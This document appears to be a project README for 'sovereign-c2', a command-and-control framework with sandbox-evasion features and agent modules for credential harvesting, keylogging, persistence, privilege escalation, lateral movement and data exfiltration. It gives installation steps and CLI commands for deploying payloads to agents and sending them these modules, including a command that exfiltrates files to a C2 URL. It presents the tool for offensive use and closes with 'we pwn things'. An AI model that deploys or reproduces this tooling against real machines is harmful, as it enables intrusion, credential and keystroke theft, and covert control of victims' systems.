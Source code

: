 This is the start of a c2 server and client (currently windows) deployment. It's from our community as a whole. More functionality to follow in due course. 


    Enhanced Evasion Techniques: Polymorphic code, sandbox detection, time-based evasion.
    Advanced Post-Exploitation Modules: Credential harvesting, persistence, privilege escalation, reconnaissance, data exfiltration, keylogging, lateral movement.
    Secure Communication: Encrypted communication between agent and C2 server.
    Modular Design: Easily add new modules and functionalities.
    Logging and Reporting: Detailed logging and report generation.


# Installation and Setup

Clone the repository git clone https://github.com/4lph4-01/share

Create a Virtual Environment python -m venv venv within the sovereign-c2 directory

source venv/bin/activate (in a new terminal e.g. source venv/bin/activate in the same directory, but separate terminal window). Results of the initial supported powershell commands sent will output to the check-in terminal window. 

On Windows, use venv\Scripts\activate

Install Dependencies pip install -r requirements.txt

Prepare Payloads (If necessary) Ensure your payload scripts are in the payloads directory:
    payloads/macos_payload.sh (Work in progress)
    payloads/linux_payload.sh (Work in progress)
    payloads/windows_payload.ps1 (Work in progress)

# Running the C2 Server

python c2_server/c2_server.py CLI Usage

List Agents python cli/cli.py list-agents

Deploy Payload python cli/cli.py deploy-payload <agent_type> Replace <agent_type> with macos, linux, or windows.

Select and Send Commands to an Agent python cli/cli.py select-agent You can specify the agent ID directly or choose from a list of available agents.

Generate Report python cli/cli.py generate-report

Send a Specific Command python cli/cli.py send-command <agent_id>

# Supported Commands

Credential Harvesting python cli/cli.py send-command <agent_id> cred_harvest

Persistence python cli/cli.py send-command <agent_id> persistence

Privilege Escalation python cli/cli.py send-command <agent_id> priv_escalation

Reconnaissance python cli/cli.py send-command <agent_id> reconnaissance

Data Exfiltration python cli/cli.py send-command <agent_id> exfiltrate <file_path> <c2_url> Replace <file_path> and <c2_url> with the actual file path and C2 URL.

Keylogging python cli/cli.py send-command <agent_id> keylogging

Lateral Movement python cli/cli.py send-command <agent_id> lateral_movement Modules Directory Structure Ensure you have a modules directory with the following structure and content: modules/ cred_harvest.py persistence.py priv_escalation.py reconnaissance.py exfiltration.py keylogging.py lateral_movement.py

# By the way, we pwn things.....
